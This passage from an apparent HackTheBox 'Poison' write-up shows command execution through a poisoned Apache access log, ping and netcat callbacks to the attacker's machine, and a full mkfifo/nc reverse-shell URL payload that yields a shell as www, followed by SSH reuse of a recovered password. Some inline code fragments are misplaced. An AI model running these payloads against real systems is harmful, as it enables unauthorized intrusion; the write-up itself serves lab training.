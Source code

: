 A ping shows that we can generate outbound network traffic back to our host:

    view-source:http://10.10.10.84/browse.php?file=/var/log/httpd-access.log&c=ping 10.10.14.6
    

    root@kali:~/hackthebox/poison-10.10.10.84# tcpdump -i tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    13:03:55.775947 IP 10.10.10.84 > kali: ICMP echo request, id 30469, seq 0, length 64
    13:03:55.775985 IP kali > 10.10.10.84: ICMP echo reply, id 30469, seq 0, length 64
    13:03:56.799382 IP 10.10.10.84 > kali: ICMP echo request, id 30469, seq 1, length 64
    13:03:56.799404 IP kali > 10.10.10.84: ICMP echo reply, id 30469, seq 1, length 64
    

A quick test with shows that we can get tcp connections back as well:`nc`

    view-source:http://10.10.10.84/browse.php?file=/var/log/httpd-access.log&c=nc 10.10.14.6 8081
    

    root@kali:~/hackthebox/poison-10.10.10.84# nc -lnvp 8081
    listening on [any] 8081 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.10.84] 30536
    

### Shell as www

So let’s use the robust pipe shell from [Pentest Monkey’s Cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and get a shell. Visit , and:`view-source:http://10.10.10.84/browse.php?file=/var/log/httpd-access.log&c=rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f|/bin/sh%20-i%202%3E%261|nc%2010.10.14.6%209001%20%3E/tmp/f`

    root@kali:~/hackthebox/poison-10.10.10.84# nc -lnvp 9001
    listening on [any] 9001 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.10.84] 19226
    sh: can't access tty; job control turned off
    $ pwd
    /usr/local/www/apache24/data
    $ id
    uid=80(www) gid=80(www) groups=80(www)
    

## SSH as Charix

At this point we have a password from . We also know from the that there is a user named charix. And the string “charix” is in the password. So let’s try this password as an ssh password for a user charix. It works:`pwdbackup.txt``/etc/passwd`

    root@kali:~/hackthebox/poison-10.10.10.84# ssh charix@10.10.10.84
    Password for charix@Poison:
    Last login: Wed Apr  4 19:42:41 2018 from 10.10.15.237
    FreeBSD 11.1-RELEASE (GENERIC) #0 r321309: Fri Jul 21 02:08:28 UTC 2017
    
    Welcome to FreeBSD!
    
    Release Notes, Errata: https://www.FreeBSD.org/releases/
    Security Advisories:   https://www.FreeBSD.org/security/
    FreeBSD Handbook:      https://www.FreeBSD.org/handbook/
    FreeBSD FAQ:           https://www.FreeBSD.org/faq/
    Questions List: https://lists.FreeBSD.org/mailman/listinfo/freebsd-questions/
    FreeBSD Forums:        https://forums.FreeBSD.org/
    